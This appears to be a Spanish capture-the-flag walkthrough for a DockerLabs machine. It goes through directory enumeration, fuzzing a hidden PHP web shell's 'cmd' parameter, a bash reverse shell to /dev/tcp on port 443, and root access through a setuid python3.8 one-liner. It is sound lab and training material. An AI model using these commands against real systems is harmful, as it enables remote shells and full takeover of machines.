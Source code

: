 nmap: 22,80

![image](https://github.com/user-attachments/assets/fa1ec9f2-3652-4885-b2da-5f55617289e1)

entramos a la pagina y tenemos esto

![image](https://github.com/user-attachments/assets/c08b40e7-b159-485b-8b84-a1efb6d64a9d)

y en el código fuente esto:

![image](https://github.com/user-attachments/assets/fa52b375-21db-4e37-ba73-7f084d8819ad)

ahí muestra una "shell.php" y un "acces panel", hacemos un gobuster 

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,py,txt

vamos consiguiendo diferentes resultados

un backup.txt

![image](https://github.com/user-attachments/assets/cc37c0ec-1178-459b-9fb0-b2beaa6972cf)

un hidden

![image](https://github.com/user-attachments/assets/8c6d7b64-cdc8-41c0-811e-0958c74cf18f)

probamos el hidden con el shell.php que nos mostro el código fuente

![[shell.php.png]]

pero no nos muestra nada, pero como es una shell.php vamos a probar si directorios extras comunes como un "?file" o "?cmd", de no ser así lanzamos este comando

     wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/hidden/.shell.php?FUZZ=id"

pero funciona con el "cmd"

![[shell1.png]]

así que podemos lanzar una bash y dejar el terminal en escucha

    bash -c 'bash -i>& /dev/tcp/172.17.0.1/443 0>&1'

tenemos esta pero no funciona así que la podemos URL encodear https://www.urlencoder.org/

y obtenemos la conexión

![[dockerlabs/facil/walking dead/conexion.png]]

ahora escalamos a root, encontramos esto

![[escalada 1.png]]

igual encontramos esto

![[cat1.png]]

python 3.8, así que podemos lanzar este comando para ser root

     python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![[rooot.png]]

y somos root! 
